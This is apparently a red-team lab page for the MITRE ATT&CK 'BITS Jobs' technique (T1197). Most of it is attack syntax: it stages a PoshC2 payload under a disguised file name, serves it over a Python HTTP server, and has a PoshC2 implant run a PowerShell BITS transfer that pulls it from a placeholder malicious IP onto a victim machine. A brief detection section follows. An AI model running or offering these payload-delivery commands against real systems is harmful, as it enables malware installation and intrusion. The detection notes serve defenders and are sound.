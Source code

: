 # [BITS Jobs](https://attack.mitre.org/techniques/T1197/)

## Exploit Syntax: 

1. In Parrot terminal run the following commands
    ```powershell
    mkdir /tmp/Abrodolph
    ```

    ```powershell
    cd /tmp/Abrodolph
    ```

    ```powershell
    cp /var/poshc2/<project name>/payloads/<payload name> Lincoler.exe
    ```

    ```powershell
    python3 -m http.server 12137
    ```

2.  In posh, run
    ```powershell
    sharpps powershell.exe -c start-bitstransfer -source http://<malicious ip address>:12137/Lincoler.exe -destination <victim save location>
    ```
> **NOTE:** Requires your device to be connected to the internet or have a default gateway configured

---

## Detection Method
* Monitor for new BITS tasks being created
* Monitor network activity generated by BITS over HTTP(S)
* Look for powershell or cmd running bits commands

---

## Resources    